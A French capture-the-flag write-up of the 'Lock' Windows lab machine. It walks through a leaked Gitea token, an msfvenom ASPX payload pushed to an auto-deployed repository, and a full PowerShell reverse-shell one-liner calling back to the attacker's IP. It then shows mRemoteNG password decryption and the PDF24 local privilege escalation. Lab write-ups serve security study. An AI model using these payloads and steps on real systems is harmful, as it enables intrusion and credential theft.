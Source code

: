 ```yaml
---
title: Lock - Easy
description: WU Lock - Easy
categories: [Writeup]
tags: [writeup]
template: doc
---
```

![](../../../../assets/wu-images/banner.jpeg)

# LOCK


| OS | Difficulty | Target |
|----|----|----|
| Windows | <span style="color:green">**EASY**</span> | 10.10.92.237 |



# 🔭 Enumeration

### PortScan

```
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3000/tcp open  ppp
3389/tcp open  ms-wbt-server
```
Scan approfondit des ports trouvés:

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Lock - Index
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=87dfb3e2af70e006; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=40IoXd4T_GFBgYejGbA9it2Tu-g6MTcyNjM0OTU4OTY2NjgxMjUwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 14 Sep 2024 21:33:09 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2xvY2FsaG9zdDozMDAwLyIsImljb25zIjpbeyJzcmMiOiJodHRwOi8vbG9jYWxob3N0OjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjU
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=690ad1cf074d552c; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=IlVtCJ-F-vcFbXBL_eRGbH0Nb9Y6MTcyNjM0OTU5NTA2NDE1OTgwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 14 Sep 2024 21:33:15 GMT
|_    Content-Length: 0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Lock
| Not valid before: 2024-09-13T21:19:21
|_Not valid after:  2025-03-15T21:19:21
|_ssl-date: 2024-09-14T21:35:12+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LOCK
|   NetBIOS_Domain_Name: LOCK
|   NetBIOS_Computer_Name: LOCK
|   DNS_Domain_Name: Lock
|   DNS_Computer_Name: Lock
|   Product_Version: 10.0.20348
|_  System_Time: 2024-09-14T21:34:32+00:00
```
| PORT | PROTOCOL |
|----|----|
| 80 | HTTP |
| 445 | SMB |
| 3000 | GITEA |
| 3389 | RDP |

# 👣 Foothold

Un dépôt `Gitea` sur le port 3000. Nous donne un nom d'user `ellen.freeman`. Il y a 2 commits et un script.
Le commit initial nous permet de récupérer le Token Gitea:

```py
PERSONAL_ACCESS_TOKEN = '43ce39bb0bd6bc489284f2905f033ca467a6362f' 
```

En jetant un coup d'oeil au script,  on peut voir qu'il énumère l'ensemble des dépôts présents sur Gitea pour un utilisateur donné.

En utilisant le script, nous découvrons un dépôt `/website`

```sh
python3 repos.py http://lock.vl:3000
Repositories:
- ellen.freeman/dev-scripts
- ellen.freeman/website
```

Téléchargeons le git:

```sh
git clone http://ellen.freeman:43ce39bb0bd6bc489284f2905f033ca467a6362f@lock.vl:3000/ellen.freeman/website.git
Cloning into 'website'...
remote: Enumerating objects: 165, done.
remote: Counting objects: 100% (165/165), done.
remote: Compressing objects: 100% (128/128), done.
remote: Total 165 (delta 35), reused 153 (delta 31), pack-reused 0
Receiving objects: 100% (165/165), 7.16 MiB | 2.58 MiB/s, done.
Resolving deltas: 100% (35/35), done.
```

En lisant le fichier `README.md` présent, il est indiqué que chaque modification, apportée au dépôt, est déployée automatiquement.

```sh
cat readme.md    
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver# 
```

Création d'un reverse shell avec un fichier `.aspx` puis push vers le dépôt ou en utilisant [ce script](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx)
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.3.147 LPORT=4444 -f aspx -o web.aspx
git config --global user.name ellen.freeman
git config --global user.email ellen.freeman@lock.vl
git add web.aspx
git commit -m "Add web file"
git push
```

Dans un autre terminal j'écoute sur le port 4444, puis je me rends sur le lien du fichier en espérant obtenir un reverse shell.

```sh
nc -lvnp 4444
```

Sur le lien de la page, je saisis la commande:

```cmd
/c powershell.exe -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.3.147',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
On obtient notre reverse shell, en fouillant dans les répertoires de `ellen.freeman` on trouve un fichier `config.xml`.
```powershell
PS C:\Users\ellen.freeman\Documents> cat config.xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>
```

Le fichier `config.xml` est un fichier pour RemoteNG. J'utilise le script de ce [dépôt](https://github.com/gquere/mRemoteNG_password_decrypt) pour déchiffrer les informations présentes.

```sh
python3 rng-decrypt.py config.xml   
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: ty8wnW9qCKDosXo6
```

On obtient donc l'user `Gale.Dekarios` et son mot de passe.
Connectons-nous en RDP.

Le flag user est présent sur le Bureau.


# 🎯 Privilege Escalation

A partir de la session de Gale.Dekarios, nous pouvons voir que le logiciel PDF24 est présent. En regardant les détails du programme, la version est la 11.15.1 dont un exploit permet de PrivEsc.

Le lien ci-contre nous indique la [marche à suivre](https://packetstormsecurity.com/files/176206/PDF24-Creator-11.15.1-Local-Privilege-Escalation.html).

- Téléchargeons SetOpLock.exe sur la machine cible ([Github](https://github.com/googleprojectzero/symboliclink-testing-tools/releases/tag/v1.0))
- Saisissons la commande suivante dans un prompt cmd: `.\SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r`
- Un dossier `_Install`est présent à la racine de `C:` et possède l'installer msi requis pour monter en privilèges.
- Dans un autre terminal, lançons l'installation avec la commande suivante: `msiexec.exe /fa pdf24-creator-11.15.1-x64.msi`
- A la fin de l'installation un terminal s'ouvre, il suffit de cliquer droit sur la barre / Propriété et cliquer sur le lien `Legacy console mode link`
- Sélectionner Firefox, puis `CTRL+O`pour ouvrir `cmd.exe`à partir de Firefox. 
- Contrôler qui nous sommes avec la commande `whoami /all` 

Vous êtes administrateur, vous pouvez obtenir le flag `root.txt`dans le Desktop d'Administrator.